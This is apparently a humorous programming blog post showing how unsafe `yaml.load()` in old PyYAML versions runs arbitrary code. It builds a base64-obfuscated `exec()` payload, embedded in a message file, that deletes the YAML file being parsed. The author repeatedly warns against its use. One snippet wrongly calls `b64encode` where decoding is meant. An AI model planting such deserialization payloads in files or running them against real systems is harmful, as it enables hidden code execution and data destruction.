 ```yaml
---
layout: post
title: This YAML file will self-destruct in five seconds!
category: Programming and code
---
```


If you know the *Mission: Impossible* films (or before that, the 1966 TV series), you've surely heard the famous phrase, "This tape will self-destruct in five seconds. Good luck, Jim."
As soon as our hero hears his instructions, the tape emits a cloud of smoke and is rendered useless.

But would this work in 2019?
Could we equip a modern-day spy with a message that would self-destruct as soon as you read it?
The answer: yes, but you really shouldn't.

<img src="/images/2019/tape_recorder_1x.jpg" srcset="/images/2019/tape_recorder_1x.jpg 1x, /images/2019/tape_recorder.jpg 2x" alt="A tape recorder with smoke coming out of it.">

Let's start by talking about YAML, which is how we'll create this disappearing dispatch.
[YAML] is a language for serialising data.
You can use it to store data structures like lists, maps, and text -- similar to JSON or XML -- and it's often used for config files and the like.
Here's a small example:

```yaml
name: "lexie"
cat_count: 2

cats:
  - name: "Bailey"
    colour: "ochre"
  - name: "Bertie"
    colour: "black"
```

[YAML]: https://en.wikipedia.org/wiki/YAML

The basic YAML syntax allows you to specify simple data structures (lists, maps, and so on), but what if you want to serialise something more complicated?
You can use a *tag* in your YAML file to tell the parser that it should treat the data as a more complex object.

For example, the `!square` tag here could tell the parser that rather than treating this value as a string, it should create an instance of a special `Square` class:

```yaml
!square "0,0,10,10"
```

There are also language-specific tags, and this is where we start to run into trouble.
If you run this through a Python YAML parser, it creates a tuple instead of a list:

```yaml
!!python/tuple [triangle, square, circle]
```

To do this properly, your parser needs to be executing arbitrary code, and that's always a recipe for security vulnerabilities.
For a long time, the default `load()` function in the [PyYAML module][pyyaml] was unsafe, and would run any code in the YAML it received.
This meant you could call system functions with `os.system`:

```python
import yaml

yaml.load("!!python/object/new:os.system [echo BOOM!]")
```

There was a `safe_load()` function that would only load a subset of YAML that didn't feature arbitrary code execution, but it wasn't until earlier this year that safe loading [became the default][deprecation].

[pyyaml]: https://pypi.org/project/PyYAML/
[deprecation]: https://github.com/yaml/pyyaml/wiki/PyYAML-yaml.load(input)-Deprecation

Ever since I learnt about this behaviour, I've idly wondered if you could use this to cause the YAML file to delete itself, and yesterday I got that working.
This is shocking, disgusting code, and you shouldn't use it in practice -- but it proves the idea.

Using `os.system` is powerful, but the builtin [`exec()` function][exec] is even more powerful.
If you pass this a string, it tries to execute the string as Python code.
Always be careful when using this function, and never pass it untrusted input -- or somebody could run arbitrary code on your machine.

We can use old versions of PyYAML to call `exec()` from a YAML file:

```yaml
!!python/object/new:exec [
  name = "Mr Phelps";

  print("Hello %s." % name)
]
```

If you call `yaml.load()` with a vulnerable version of PyYAML (< 5.1), it prints the text `Hello Mr Phelps.` -- but we could do anything we like here.

[exec]: https://docs.python.org/3/library/functions.html#exec

For example, we could look up the ID of the parent process (the Python interpreter that's doing the parsing), and then use [lsof on Linux][lsof] to see what files that process has open:

```yaml
!!python/object/new:exec [
  import os;

  parent_process_id = os.getppid();

  os.system("lsof -p %s" % parent_process_id);
]
```

[lsof]: https://linux.die.net/man/8/lsof

And if we can see what files a process has open… well, we could see what YAML file it's parsing, and delete them from underneath it.
I tried to write something like this:

```yaml
!!python/object/new:exec [
  import os;
  import subprocess;
  import sys;
  import time;

  parent_process_id = os.getppid();

  open_files = subprocess.check_output(
      ["lsof", "-p", str(parent_process_id)]
  ).decode("utf8");

  filenames = [
      line.split()[-1]
      for line in open_files.splitlines()
  ];

  yaml_files = [
      f
      for f in filenames
      if f.endswith((".yml", ".yaml"))
  ];

  for yf in yaml_files:
      print(
          "This file will self-destruct in five seconds. Good luck, Jim.",
          file=sys.stderr
      );
      time.sleep(5);
      os.unlink(yf)
]
```

but you get errors from the YAML parser -- the square brackets, quotes, and commas look like they might be part of the YAML syntax, and the parser gets confused.

I hit this issue a couple of times, and I tried to be clever and write my Python code to avoid any of those characters, but it severely limits the code you can write.
(Among other things, not having commas means you can't call functions with more than one argument.)

We can get round this by doubling down on our first bad idea.
If you want to get a string through an environment that only allows a limited set of characters, you can often use [base64 encoding][base64].
This encodes your text in a form that only uses alphanumeric characters A–Z, a–z, 0–9, plus three punctuation characters (`+`, `/`, and `=`).
If we encode our source code as base64, then get `exec()` to decode it and then call `exec()` a second time -- that would get past the YAML parser.

Once you have your base64-encoded source, here's what that would look like

```yaml
!!python/object/new:exec [
  import base64;

  encoded_source = b"...";
  source = base64.b64encode(encoded_source);

  exec(source)
]
```

[base64]: https://en.wikipedia.org/wiki/Base64

If we do this to the source code above, here's the message we end up with:

```yaml
from: "Lexie <lexie@alexwlchan.net>"
to: "Jim Phelps <jim.phelps@imf.org>"

message: "Beware Swiss villains bearing lasers!"

action:
  !!python/object/new:exec [
    import base64;

    encoded_source = (
        b"aW1wb3J0IG9zOwppbXBvcnQgc3VicHJvY2VzczsKaW1wb3J0IHN5czsKaW1wb3J0IHRp"
        b"bWU7CgpwYXJlbnRfcHJvY2Vzc19pZCA9IG9zLmdldHBwaWQoKTsKCm9wZW5fZmlsZXMg"
        b"PSBzdWJwcm9jZXNzLmNoZWNrX291dHB1dCgKICAgIFsibHNvZiIsICItcCIsIHN0cihw"
        b"YXJlbnRfcHJvY2Vzc19pZCldCikuZGVjb2RlKCJ1dGY4Iik7CgpmaWxlbmFtZXMgPSBb"
        b"CiAgICBsaW5lLnNwbGl0KClbLTFdCiAgICBmb3IgbGluZSBpbiBvcGVuX2ZpbGVzLnNw"
        b"bGl0bGluZXMoKQpdOwoKeWFtbF9maWxlcyA9IFsKICAgIGYKICAgIGZvciBmIGluIGZp"
        b"bGVuYW1lcwogICAgaWYgZi5lbmRzd2l0aCgoIi55bWwiLCAiLnlhbWwiKSkKXTsKCmZv"
        b"ciB5ZiBpbiB5YW1sX2ZpbGVzOgogICAgcHJpbnQoCiAgICAgICAgIlRoaXMgZmlsZSB3"
        b"aWxsIHNlbGYtZGVzdHJ1Y3QgaW4gZml2ZSBzZWNvbmRzLiBHb29kIGx1Y2ssIEppbS4i"
        b"LAogICAgICAgIGZpbGU9c3lzLnN0ZGVycgogICAgKTsKICAgIHRpbWUuc2xlZXAoNSk7"
        b"CiAgICBvcy51bmxpbmsoeWYpOwogICAgcHJpbnQoIvCfkqUiKTs="
    );
    source = base64.b64decode(encoded_source);

    exec(source)
  ]
```

and if Jim Phelps parses this using his special IMF-approved message reader:

```python
import yaml  # PyYAML < 5.1

with open("message.yml") as f:
    message = yaml.load(f)
    print(message)
```

then the file will burst into (metaphorical) smoke before his eyes!

This code is dastardly, terrible, and you really shouldn't use it.
It abuses unsafe YAML loading and the `exec()` function, neither of which should ever be used with untrusted input.
It's also quite fragile; `lsof` behaves differently across platforms, and this likely won't work on macOS or Windows.

Please don't use this for anything serious.
If it explodes, I will disavow any knowledge of your code.
